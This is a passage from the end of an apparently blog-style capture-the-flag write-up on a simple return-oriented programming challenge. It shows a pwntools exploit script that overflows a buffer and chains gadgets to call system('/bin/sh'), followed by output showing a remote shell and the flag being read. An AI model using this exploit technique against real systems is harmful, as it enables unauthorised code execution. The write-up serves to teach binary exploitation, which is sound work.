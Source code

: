 rbp = 0x00404500
simple_ret = 0x0040101a

payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(simple_ret)
payload += p64(system)

io.sendline(payload)
io.interactive()
{% endhighlight %}

Running it against the remote server will result in a shell:

{% highlight auto %}
$ python exploit.py 
[+] Opening connection to 34.89.143.158 on port 31042: Done
[*] puts: 0x7f50d3c2a5a0
[*] libc_base: 0x7f50d3ba3000
[*] system: 0x7f50d3bf8410
[*] bin_sh: 0x7f50d3d5a5aa
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ id
uid=1000(ecsc) gid=3000 groups=3000,2000
$ ls -l
total 20
-rwxr-xr-x 1 root root    70 May 13 09:37 flag
-rwxr-xr-x 1 root root 14520 May 13 09:37 pwn
$ cat flag
[REDACTED]
{% endhighlight %}

## The End
That wasn't *very* hard, was it? I hope you've learned something new from this article (I certainly have!). The python scripts I used can be found [in this repo](https://github.com/Yakuhito/simple-rop/tree/master).

Until next time, hack the world.

yakuhito, over.